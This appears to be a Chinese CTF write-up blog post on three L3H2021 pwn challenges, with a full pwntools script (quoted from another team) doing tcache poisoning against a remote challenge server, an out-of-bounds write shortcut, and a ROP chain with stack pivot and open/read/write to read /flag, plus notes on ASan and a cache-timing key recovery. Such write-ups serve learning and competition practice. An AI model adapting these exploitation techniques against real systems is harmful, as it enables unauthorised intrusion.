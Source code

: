 ```yaml
---
title: L3H2021 PWN部分
date: 2021-11-29 22:47:41
tags: [CTF,Pwn,Python]
categories: 
 - [CyberSecurity,CTF]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682436269/Typera/2023/04/2b4c8ea294f30ddf5d63bfe0cb363e5f.png
---
```


## spn(11.26)

[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_spn.zip)
复现这道题的时候，我一开始用的是0RAYS的解法，大致是找spn的解密脚本，计算给出的shell的真实地址，然后用tcache打shell，最后选5进backdoor.
虽说是读懂了0RAYS的脚本，而且也算是进一步学习了一下tcache的机制，
然而我一番搜索，着实找不到好用的spn解密脚本，就只好另寻出路.
0RAY的脚本放上：

```python
#!/usr/bin/python
# -*- coding:utf-8 -*-

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=0
binary_name='SPN_ENC'
libc_name='lib/libc-2.27.so'
if local:
    p=process("./"+binary_name)
    libc=ELF("./"+libc_name)
else:
    p=remote('124.71.194.126',9999)
    e=ELF("./"+binary_name)
    libc=ELF("./"+libc_name)

def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
# 这里真的是学到了，不过也是我之前看大佬的wp太少的缘故，之前我还在傻傻地一个字一个字地敲(+_+)

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("0.exit\n",str(num))
def add(size,idx):
    cho(1)
    sla("Size:",str(size))
    sla("Index:",str(idx))
def delete(idx):
    cho(3)
    sla("Index:",str(idx))
def show(idx):
    cho(4)
    sla("Index:",str(idx))
def edit(idx,size,data):
    cho(2)
    sla("Index:",str(idx))
    sla("Size",str(size))
    sa("Content",data)
def backdoor():
    cho(5)
def decrypt(x):
    io = process('./spn_dec.py')
    io.sendline(str(x&0xffff))
    a = int(io.recv()[:-1])
    io.close()
    return a
def spn_dec(x):
    a1 = decrypt(x)
    a2 = decrypt(x>>16)
    a3 = decrypt(x>>32)
    aa = a1+a2*0x10000+a3*0x100000000
    print(hex(a3),hex(a2),hex(a1))
    print(aa)
    return aa

ru("gift:")
shell_addr=int(ru('\n'),16)
print(hex(shell_addr))
aa = spn_dec(shell_addr)
print(hex(aa))
add(0x10,0)
add(0x10,1)
add(0x10,2)
delete(2)
delete(1)
edit(0,0x26,b'a'*0x20+p64(aa)[:-2])
add(0x10,3)
add(0x10,4)
edit(4,2,b'aa')
backdoor()
ia()

# 害，身为菜鸡，我连脚本都没大佬写得好看
```
然后，我找到了另一种解法，输入0x1000，数组越界写了shell，可以直接backdoor

![image-20230425232554399](https://res.cloudinary.com/sycamore/image/upload/v1682436358/Typera/2023/04/0a873d7de40231b015e0a70c0c4466c6.png)

```python
add(0,0x1000)
add(1,0x20)
edit(0,0x1000+2,'\n')
backdoor()
```
## checkin(11.27)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_checkin.zip "附件下载")
### 关于ASan
这道题使用了ASan，是一种影子内存的技术。关于它的具体内容可以参考[这篇文章](https://bestwing.me/ASan-and-ASan-in-CTF%280ctf-babyaegis%29.html)
这里记录一点大致的内容
ASan 是 Google 开源的一个用于进行内存检测的工具，它由两个主要部分构成，插桩和动态运行库( Run-time library )。
插桩主要是针对在llvm编译器级别对访问内存的操作(store，load，alloca等)，将它们进行处理。
动态运行库主要提供一些运行时的复杂的功能(比如poison/unpoison shadow memory)以及将malloc,free等系统调用函数hook住
ASan采用了直接内存映射策略，具体的映射策略如下所示
**64位**
> Shadow = (Mem >> 3) + 0x7fff8000;

**32位**
> Shadow = (Mem >> 3) + 0x20000000;

### 关于orw
**由来：**
有些pwn题为了增加难度，会在程序初始化的时候增加seccomp函数，禁用掉除了sys_open,sys_write,sys_read以外的所有系统调用。也就是说我们无法通过system（‘/bin/sh’）来getshell，只能通过o，r，w这三个系统调用获取flag。
**漏洞利用：**
首先调用open函数打开flag文件。
然后读取flag文件。
最后通过wirte将flag打印出来。
```python
sys_open("flag")//读取flag
sys_read("rax","rsp",0x40)//rax为sysoopen的返回值，也就是flag，然后将flag写到esp下
sys_write(1,"rsp",0x40)//打印flag的值到屏幕输出
```
害，还是知识不到位，这里再放一篇挺详细的[orw介绍](https://www.codeleading.com/article/72315735518/)
### 分析
pwn内可以任意地址写一个字节，故修改 _ZN14__interception21real___isoc99_vfscanfE 的第二个字节，使其指向gets函数(0x73ED28)
![image-20230425232602805](https://res.cloudinary.com/sycamore/image/upload/v1682436366/Typera/2023/04/38fe2a7349d7b29477d22b0f72026408.png)

```python
sla(b'Welcome! A gift for you:',str(0x73edb8+1))
sleep(1)
sd(b'\x91')
sa(b'Leave a note.',b'a'*0x1f)
sa(b"That's all. Have fun!",p64(0x43FBB3))
```
构造rop，调用gets函数，泄露libc_addr地址
```python
pop_rdi = 0x41af0b
pop_rsp = 0x484d50
call_puts = 0x43A286
rop = p64(pop_rdi)+p64(0x72DE30)+p64(call_puts)+b'a'*0x838+p64(0)*6+p64(pop_rdi)+p64(0xA00000)+p64(0x43FBB3)+b'a'*0x30+p64(0)*3+p64(pop_rsp)+p64(0xA00000)
try:
    p.recv()
    sl(rop)
    libc_addr = leak_address()-0x407e0
    print(hex(libc_addr))
    if libc_addr == 0x736572605c61:
        p.close()
        return 0
except Exception:
    return 0
print(hex(libc_addr))
```
最后栈迁移+orw调用获取flag文件
```python
binsh=libc_addr+0x1B3E1A
system=libc_addr+0x4f550
pop_rsi=0x000000000041ab7c
pop_rdx=0x000000000043ced2
open_addr=libc_addr+libc.sym['open']
read_addr=libc_addr+libc.sym['read']
write_addr=libc_addr+libc.sym['write']
rop2 = p64(pop_rdi)+p64(0xA00100)+p64(pop_rsi)+p64(0)+p64(open_addr)
rop2 += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(read_addr)
rop2 += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(0xA00200)+p64(pop_rdx)+p64(0x100)+p64(write_addr)
rop2 = rop2.ljust(0x100,b'\x00')+b'/flag\x00'
sl(rop2)
```
## slow_spn(11.29)
[附件下载](https://cdn.jsdelivr.net/gh/noneSycamore/annex/pwn_slow-spn.zip "附件下载")
这题感觉挺奇怪的。。。
貌似除了pwntools工具，就没有用到啥和pwn相关的东西，主要的解题思路也没啥漏洞利用的感觉，大概属于密码。
程序的大概流程就是：从flag文件里面导出key和plaintext，然后通过s盒和p盒放入cache里面.
![image-20230425232612526](https://res.cloudinary.com/sycamore/image/upload/v1682436377/Typera/2023/04/d98248de6bbcdd6c0a8ae6fa6d3523de.png)
cache是题目实现的，最多可以往里添加0x20个数（模拟访问s盒中的地址），超过了会剔除最小的一个，若是cache命中了则使用算法计数，未命中则sleep(1)，
由于题目给了一次访问plaintext在s盒中的地址的机会，所以可以通过遍历来爆破，通过sleep(1)判断cache是否命中，然后推出上图中p，v9，v7，v5以及k>>8，k>>4，k的值，然后拼接得到key.
![image-20230425232621850](https://res.cloudinary.com/sycamore/image/upload/v1682436385/Typera/2023/04/f5836a7db5ff249e037d1a839c975876.png)
